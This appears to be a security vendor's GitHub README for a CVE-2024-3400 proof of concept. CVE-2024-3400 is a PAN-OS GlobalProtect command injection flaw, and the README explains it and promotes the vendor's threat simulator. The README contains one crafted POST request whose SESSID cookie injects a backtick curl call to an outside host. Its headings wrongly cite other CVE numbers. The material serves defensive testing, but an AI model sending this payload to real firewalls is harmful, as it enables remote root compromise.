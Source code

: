 # Palo Alto PAN-OS CVE-2024-3400 PoC Exploit
Palo Alto Networks disclosed a critical vulnerability affecting PAN-OS software used in security appliances like their next-generation firewalls. CVE-2024-3400 is a command injection vulnerability with a CVSS score of 10.0 (Critical). The vulnerability allows adversaries to execute commands in Palo Alto firewalls with root privileges remotely. <br><br>
In this repo, Picus provides a Proof-of-Concept exploit for the CVE-2024-3400 vulnerability.

Test security controls against the CVE-2024-3400 vulnerability exploit 
--------------------------------------
Picus can help you simulate the CVE-2024-3400 vulnerability exploits for free. No setup or signup is required.<br>
Use [Picus Emerging Threat Simulator](https://www.picussecurity.com/emerging-threat-simulator?utm_source=github&utm_medium=organic+social&utm_campaign=PLS+Offensive+-+ET+Simulator) and test your defenses in a few clicks.<br> 
If you are looking for more detailed information, check out our blog post: [CVE-2024-3400: Palo Alto PAN-OS Command Injection Vulnerability Explained](https://www.picussecurity.com/resource/blog/cve-2024-3400-palo-alto-pan-os-command-injection-vulnerability-explained)

CVE-2024-3094 Proof-of-concept (POC)
----------------------
CVE-2024-3400 is a command injection vulnerability found in the GlobalProtect feature of PAN-OS software. The telemetry functionality in the GlobalProtect uses the curl command to send logs from a temporary directory. Using malformed SESSID, adversaries were able to inject shell commands with root privileges via unauthenticated HTTP post requests. 

#### Example CVE-2023-42793 Exploit:
//Attacker-crafted POST request
```http
POST /ssl-vpn/hipreport.esp HTTP/1.1
Cookie: SESSID=/../../../opt/panlogs/tmp/device_telemetry/minute/hello`curl{$IFS}example.com`;
```

Disclaimer
----------
©2024 Picus Security <br>
All rights reserved.
